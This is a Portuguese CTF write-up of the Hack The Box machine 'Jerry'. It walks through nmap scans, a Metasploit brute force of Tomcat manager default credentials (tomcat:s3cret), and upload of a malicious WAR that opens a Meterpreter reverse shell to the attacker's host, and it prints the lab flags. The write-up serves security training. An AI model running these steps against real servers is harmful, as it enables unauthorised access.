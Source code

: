```yaml
---
layout: post
title: Jerry [Hack The Box] - Explorando Apache Tomcat
author: obrerodrigues
categories: [CTFs]
tags: [Hack The Box, windows, tomcat]
---
```

Jerry é uma máquina windows nada díficil.

![](https://raw.githubusercontent.com/brerodrigues/brerodrigues.github.io/master/assets/img/jerry_htb.jpg)

Um scan do nmap padrão me fez desconfiar se estava mesmo conectado a vpn ou se tinha algo errado com minha conexão.

```
└──╼ $nmap -v -A  10.10.10.95 -oN nmap.txt
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-04 01:36 UTC
NSE: Loaded 148 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating Ping Scan at 01:36
Scanning 10.10.10.95 [2 ports]
Completed Ping Scan at 01:36, 3.00s elapsed (1 total hosts)
Nmap scan report for 10.10.10.95 [host down]
NSE: Script Post-scanning.
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.63 seconds
```

Mas, na verdade, o servidor estava bloqueando pings. Então usei -Pn.

```
└──╼ $nmap -v -A  10.10.10.95 -Pn -oN nmap.txt
# Nmap 7.70 scan initiated Tue Sep  4 00:34:18 2018 as: nmap -v -A -Pn -oN nmap.txt 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.22s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  4 00:34:57 2018 -- 1 IP address (1 host up) scanned in 38.80 seconds
```

Um servidor web apache tomcat. Acessando o http://10.10.10.95:8080 temos a mensagem que "If you're seeing this, you've successfully installed Tomcat. Congratulations!". É uma instalação padrão sem muito a oferecer. O botão "Server Status" nos leva ao link: http://10.10.10.95:8080/manager/status onde é listado que o servidor é um Windows Server 2012 R2, a versão do jvm e outras coisinhas. Informações que podem ser úteis no futuro.

Por alguns minutos procurei como configurações default do tomcat poderiam permitir uma hackeada e não encontrei algo interessante. O Dirbuster também não estava dando resultados.
Ok... Hora de pensar melhor. Estava com sono e apenas seguindo uns passos padrões tipo nmap, dirbuster e exploração de algo óbvio. Mas não é assim que se faz essa porra. Foi hora de dar um passo atrás e repensar no que tinha até o momento, afinal, pela avaliação da galera, essa máquina deveria ser fácilima. E a única coisa que parecia ser a porta de entrada era a o http://10.10.10.95:8080/manager. Claro que já havia tentado umas senhas padrão ridículas como admin/admin mas quem sabe não havia algo além? Em meio as minhas pesquisas em relação a essa página de login vi esse módulo auxiliar do metasploit: [https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login) e pensei: por que não?

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
Description:
  This module simply attempts to login to a Tomcat Application Manager
  instance using a specific user/pass.
```

Nada mágico, apenas se usará uma lista de usuario/senha e tentará logar no application manager.
Setei os bagulhos do metasploit e botei o bicho para rodar enquanto pensava e pesquisava por outros meios de acesso.

```
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOST 10.10.10.95
[!] RHOST is not a valid option for this module. Did you mean RHOSTS?
RHOST => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
```

Eu realmente não acreditava que isso ia dar em algum lugar. Eles me ensinaram que ataques de força bruta são praticamente inúteis. Maldito livro proibido do curso de hacker!

```
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
```

Mas olhe só... O usuário tomcat usa a senha secreta s3cret. Agora sim temos algo útil.
Ao acessar o manager temos as aplicações que estão rodando no servidor e temos o poder de dar deploy em um arquivo war nosso. Em outras palavras: execução de código que com certeza será malicioso. Se você não sabe, deveria pesquisar sobre o que é um deploy em um servidor tomcat, como o java faz as coisas e os carais. Não seja um kiddie que vai setar as coisas no metasploit e sair rodando. Que seja. Foda-se. Na verdade, um kiddie não faria ideia do que fazer ao ver uma página como essa onde não dá pra upar seu c99.php. C99... Estou velho. Seja um kiddie, seja feliz. Vote 666 e desbloqueie o Enéas na urna eletrônica.

Agora sim essa máquina ficou fácil pra carai. E o metasploit, convenientemente, tem um outro módulo para fazer upload e executar um war maliciosissimo em um server que se tenha o usuário e senha: [https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload)

```
msf exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
```

Sem esquecer do payload:

```
msf exploit(multi/http/tomcat_mgr_upload) > set PAYLOAD windows/meterpreter_reverse_tcp
msf exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.10.14.200
```

E mandar um exploit.

```
msf exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.200:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying jA9Vn9pNZQ08eS3tHb8R21z1JcjF...
[*] Executing jA9Vn9pNZQ08eS3tHb8R21z1JcjF...
[*] Meterpreter session 1 opened (10.10.14.200:4444 -> 10.10.10.95:49194) at 2018-09-04 01:15:07 +0000
[*] Undeploying jA9Vn9pNZQ08eS3tHb8R21z1JcjF ...
```

Que coisa linda, rapaz.

Sem dificuldade, dentro da pasta C:\Users\Administrator\Desktop\flags> há o arquivo '2 for the price of 1.txt'

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,587,751,936 bytes free
```

Esqueci o comando para ler um arquivo no Windows, então voltei ao meterpreter só pra isso:

```
meterpreter > cat "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

Se tiver afim de ler o write-up de uma máquina menos fácil, dá uma sacada na [canape](https://brerodrigues.github.io/ctfs/favorites/canape-hack-the-box-write-up).
